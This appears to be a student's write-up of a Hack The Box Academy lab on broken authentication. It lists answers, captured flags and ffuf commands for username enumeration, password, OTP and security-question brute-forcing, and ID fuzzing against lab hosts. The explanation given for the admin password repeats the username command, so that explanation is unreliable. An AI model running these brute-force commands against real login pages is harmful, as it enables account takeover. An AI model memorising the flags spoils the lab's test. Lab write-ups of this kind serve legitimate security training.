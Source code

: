 # Enumerating Users

1. Enumerate a valid user on the web application. Provide the username as the answer.

Answer: cookster

Explanation: Look at web application response. There is a text "Unknown user.". It seems that it can be used in to narrow the accessible username. 

Hydra command: ffuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -u http://94.237.54.69:49960/index.php -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=asa" -fr "Unknown user."

# Brute-Forcing Passwords

1. What is one prominent issue with passwords?

Answer: password reuse

Explanation: in password reuse, if there is a password compromised, then it can be used on another web application. 

2. What is the password of the user 'admin'?

Answer: Ramirez120992

Explanation: Usage ffuf command here: ffuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -u http://94.237.54.69:49960/index.php -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=asa" -fr "Unknown user."

# Brute-Forcing Password Reset Tokens

1. On what do password recovery functionalities provided by web applications typically rely to allow users to recover their accounts?

Answer: one-time reset token

Explanation: There could be provided a tojen in url, that is the epath to reset the password. The attaker can bruteforce the token. 

2. Which flag of seq pads numbers by prepending zeros to make them the same length?

Answer: -w

Explanation: By using tool command man seq.  
    -w, --equal-width
              equalize width by padding with leading zeroes


3. How many possible values are there for a 6-digit OTP?

Answer: 1,000,000

Explanation: Combinatorics. There are 6 numbers in a token. Each  number can be in range [0,9], Range contains 10 integers. So, the answer is 10^6

4. Takeover another user's account on the target system to obtain the flag.

Answer: HTB{36da098385e641d54e1b2750721d816e}

Notes: The response useful sentense: The provided token is invalid

# Brute-Forcing 2FA Codes
 
 1.  Brute-force the admin user's 2FA code on the target system to obtain the flag.

 Answer: HTB{9837b33a1ef678c380addf7ef8a517de}

 Notes: To login, there is 2FA method. The OTP have to be provided with first Knowledge-based auth creds admin:admin. 

Note for response: Invalid 2FA Code.

Explanation: ffuf -w ./tokens.txt -u http://94.237.54.42:30510/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=6789gitdhaoph1oe4hqnumhd4b" -d "otp=FUZZ" -fr "Invalid 2FA Code."


# Vulnerable Password Reset

1. Which city is the admin user from? 

Answer: Manchester

Explanation:

Command: ffuf -w ./city_wordlist.txt -u http://94.237.54.116:41958/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=2ngns9ithqsgsuf5ueojhql77k" -d "security_response=FUZZ" -fr "Incorrect response."

2.  Reset the admin user's password on the target system to obtain the flag.

Answer: HTB{d4740b1801d9880ff70de227a54309f0}

Explanation: Obtain the flag by loggin in to the website. 

# Authentication Bypass via Direct Access

1. Apply what you learned in this section to bypass authentication to obtain the flag.

Answer: HTB{913ab2d84b8db21854c696dee1f1db68}

# Authentication Bypass via Parameter Modification

1. Apply what you learned in this section to bypass authentication to obtain the flag.

Answer: HTB{63593317426484ea6d270c2159335780}

Explanation: 
1. seq 0 999  > id.txt
2. ffuf -w ./id.txt -u http://83.136.250.52:35689/admin.php?user_id=FUZZ -X GET -b "PHPSESSID=2sfdfkjp2veo3cdn8ffu6ruhrg" -fr "Could not load admin data. Please check your privileges."

# Attacking Session Tokens

1.  A session token can be brute-forced if it lacks sufficient what?

https://owasp.org/www-community/vulnerabilities/Insufficient_Entropy

2. Obtain administrative access on the target to obtain the flag.

Answer: HTB{d1f5d760d130f7dd11de93f0b393abda}

Explanation: echo -n 'user=htb-stdnt;role=admin' | xxd -p

757365723d6874622d7374646e743b726f6c653d61646d696e

# Skill Assessment

Register:

Password does not meet our password policy:

    Contains at least one digit
    Contains at least one lower-case character
    Contains at least one upper-case character
    Contains NO special characters
    Is exactly 12 characters long

ffuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -u http://83.136.250.52:38028/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=Anneboleyn12" -fr "Unknown username or password."  -b "PHPSESSID=2sfdfkjp2veo3cdn8ffu6ruhrg" -o userenum.txt -of json 

Output: gladys

grep '[[:upper:]]' /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{12}' > custom_wordlist.txt

ffuf -w ./custom_wordlist.txt -u http://83.136.250.52:38028/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=gladys&password=FUZZ" -fr "Invalid credentials."  -b "PHPSESSID=2sfdfkjp2veo3cdn8ffu6ruhrg" -o passswords.txt  -of json

Output: dWinaldasD13

